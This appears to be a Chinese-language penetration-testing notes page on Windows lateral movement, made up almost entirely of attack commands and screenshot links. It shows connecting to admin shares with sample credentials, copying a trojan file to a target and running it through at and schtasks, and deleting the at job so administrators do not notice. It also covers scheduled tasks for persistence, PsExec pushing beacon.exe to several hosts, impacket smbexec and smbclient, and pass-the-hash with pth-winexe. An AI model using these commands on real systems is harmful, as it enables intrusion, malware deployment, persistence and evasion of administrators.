 net use \\192.168.10.152\ipc$<br />net use \\ip\admin$ /user:"administrator" "test1234@"<br />横向域 net use \\ip\c$ /user:"aufeng\administrator" "Ojf123456789"<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388847202-a23196e7-2591-4044-9364-71798db426ca.png#height=102&id=A4tzv&originHeight=135&originWidth=130&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=98)<br />net use<br />dir \\192.168.10.152\C$<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388847427-0f1265c2-1be3-4554-8b25-a1a38e4d6aa2.png#height=251&id=Rw9Z3&originHeight=473&originWidth=616&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=327)<br />tasklist /S 192.168.10.152 /U ou /P ou123<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388847761-3c0b5c4f-a789-4c4f-b3fa-b113ee1c81bc.png#height=184&id=Zp2Sg&originHeight=273&originWidth=616&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=415)<br />copy win7.exe \\192.168.10.152\c$ 复制本机木马文件到目标机器<br />at \\192.168.10.152 15:24:00 c:\win7.exe  在特定时间执行文件<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388848241-1c59de26-e879-44f4-a576-229ba6654f45.png#height=49&id=gh8NW&originHeight=86&originWidth=459&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=263)<br />**清除at计划避免管理员发现**<br />at \\192.168.10.152 1 /delete<br />写入文本<br />at \\192.168.10.152 15:36:00 cmd.exe /c "ipconfig >c:/1.txt"<br />查看<br />type \\192.168.10.152\c$\1.txt<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388848432-9f359bae-af12-4ff7-9d7b-2dca15e2b1de.png#height=181&id=d0Ft3&originHeight=360&originWidth=608&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=306)<br /> <br />schtasks /create /s 192.168.10.152 /tn "test" /tr "c:\win7.exe" /sc daily /st 16:08 /U ou /P ou123  （远程）<br /> <br />schtasks /create /tn "test" /tr "c:\win7.exe" /sc daily /st 22:44 （本地 ）--维持权限的好方法<br /> <br />type \\192.168.10.152\c$\windows\tasks\schedlgu.txt<br />（schtasks命令会在系统c: \windows\tasks\schedlgu.txt留下日志文件）<br /> 
<a name="sjBj8"></a>
## Psexec
最好不要用64位的Psexec<br />**139、445端口 开启了共享、并且admin$共享开启(默认开启)**

PsExec.exe \\192.168.3.21 -u god\administrator -p Admin12345 cmd.exe

psexec -accepteula \\ip -s cmd.exe （本地有相同凭证就可以直接登录）<br />-s system交互式shell<br />psexec.exe \\ip -u admin -p 123 cmd.exe<br />假设已经复制好add.bat到192.168.1.2，使用psexec运行的命令是：<br />psexec \\192.168.1.2 c:\wmpub\add.bat<br /> <br /> <br />C:\WINDOWS\Temp\PsExec.exe -accepteula \\192.168.144.155,192.168.144.196 -u administrator -p admin@123 -d -c C:\WINDOWS\Temp\beacon.exe<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1623123309901-5c8e9029-93e0-472c-8424-f42adfdf1a4a.png#height=340&id=C8SdO&originHeight=679&originWidth=1545&originalType=binary&ratio=1&rotation=0&showTitle=false&size=426942&status=done&style=none&title=&width=772.5)<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388848758-35d3fbbb-f67c-45a2-8e73-33ca07d72f9e.png#height=608&id=TtHa7&originHeight=810&originWidth=838&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=629)


<a name="jqinp"></a>
## smbexec 
python .\smbexec.py admin:xs801262@175.2.187.67

开启共享smb连接翻目录<br />python smbclient.py administrator:123456@172.24.115.58  <br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1645453133975-f6668e7f-7162-489e-8d9a-9654bad8fa4d.png#clientId=u390fa834-ab20-4&from=paste&height=371&id=ue9aeda71&originHeight=741&originWidth=833&originalType=binary&ratio=1&rotation=0&showTitle=false&size=110678&status=done&style=none&taskId=ubea7ecd0-5032-4c53-aa05-f58904071ab&title=&width=416.5)
<a name="78KKI"></a>
## Kali自带的横向win工具
**pth-winexe**<br />环境要求：开启文件共享，即smb服务；禁用UAC远程限制<br />pth-winexe -U username%password //remote_ip cmd.exe  --system<br />                       ↓<br />pth-winexe -U administrator%0123abcd** --system --ostype=1 //192.168.213.132 cmd<br /> <br />支持ntlm hash直接登录<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388849236-2c86c2fd-ed8c-4661-9358-0ada73b0659f.png#height=80&id=YUsDu&originHeight=135&originWidth=698&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=415)
